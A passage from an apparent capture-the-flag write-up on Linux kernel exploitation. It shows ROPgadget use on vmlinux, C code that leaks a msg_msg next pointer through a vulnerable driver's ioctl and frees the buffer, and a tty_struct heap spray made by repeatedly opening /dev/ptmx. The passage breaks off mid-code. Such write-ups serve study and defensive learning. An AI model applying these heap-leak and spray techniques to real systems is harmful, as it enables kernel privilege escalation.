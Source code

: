 ```sh
ROPgadget --binary vmlinux --range 0xffffffff81000000-0xffffffff8285e854 > textgadgets.txt
```

For stack pivot, we would also need a gadget specifically to move `rdi` to `rsp` but after spending hours on it, maybe due to the lack of a gadget or just me having a skill issue,  I could not find one. :D Maybe if the challenge did not have `SMAP`, I could have used user space for our ROP chain.


#### 7. verify and get the `next` pointer.

Though I could not find a stack pivot, I wanted to proceed further to see how far I could go, So let's verify if a message is allocated into our heap.

```c
char *leaked_data = malloc(target_size);
  if (!leaked_data) {
      perror("malloc failed");
  return 0;
}

if (ioctl(vuln_fd, USE_READ, leaked_data) != 0) {
  perror("USE_READ failed");
  free(leaked_data);
  return 0;
}
// Process the leaked data
struct msgbuf *msg_buf = (struct msgbuf*)leaked_data;

if (msg_buf->m_type == 0x1337) {
  // I had set this earlier for easier identification
  printf("[+] Found msg_msg with mtype 0x1337!\n");
  next_msg_address = (uint64_t)(msg_buf->m_list.next); // our next pointer
  rop_addr = next_msg_address + 48;
  tty_table_address = rop_addr + payload_len * sizeof(uint64_t);
  return 1;
} else {
  return 0;
}
```

#### 8. deallocate the buffer using the driver.

```c
if (ioctl(vuln_fd, FREE) != 0) {
    //ignore for now (I don't remember why I did it.)
}
```

#### 9. Allocate a tty_struct into the heap by spam opening `/dev/ptmx` devices.

```c
for (int i = 0; i < 20; i++) {
    ptys[pty_count] = open("/dev/ptmx", O_RDWR|O_NOCTTY);
    if (ptys[pty_count] >= 0) {
        pty_count++;
    }
}

char *leaked_data = malloc(target_size);
if (!leaked_data) {
    perror("malloc failed");
    goto cleanup;
}

if (ioctl(vuln_fd, USE_READ, leaked_data) != 0) {
    perror("USE_READ failed");
```